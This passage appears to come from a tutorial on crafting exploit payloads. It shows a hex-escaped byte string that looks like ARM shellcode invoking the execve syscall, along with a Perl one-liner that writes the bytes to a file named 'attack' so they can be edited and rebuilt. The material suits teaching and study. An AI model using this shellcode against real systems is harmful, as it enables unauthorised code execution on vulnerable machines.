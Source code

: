 ```
\x02\x20\x22\xe0\x28\x10\x8f\xe2\x02\x48\x2d\xe9\x01\x48\xbd\xe8\x07\x20\xc1\xe5\x02\x48\x2d\xe9\x04\xb0\x8d\xe2\x0b\x70\xa0\xe3\x08\xd0\x4d\xe2\x0c\x10\x0b\xe5\x08\x20\x0b\xe5\x0c\x10\x4b\xe2\xff\xff\xff\xef
```

Now you can tinker with the string directly in your text editor, and when you want to generate a new binary file, just give it to Perl:

```
$ perl -e 'print "\x02\x20\x22\xe0\x28\x10\x8f\xe2\x02\x48\x2d\xe9\x01\x48\xbd\xe8\x07\x20\xc1\xe5\x02\x48\x2d\xe9\x04\xb0\x8d\xe2\x0b\x70\xa0\xe3\x08\xd0\x4d\xe2\x0c\x10\x0b\xe5\x08\x20\x0b\xe5\x0c\x10\x4b\xe2\xff\xff\xff\xef"' > attack
```
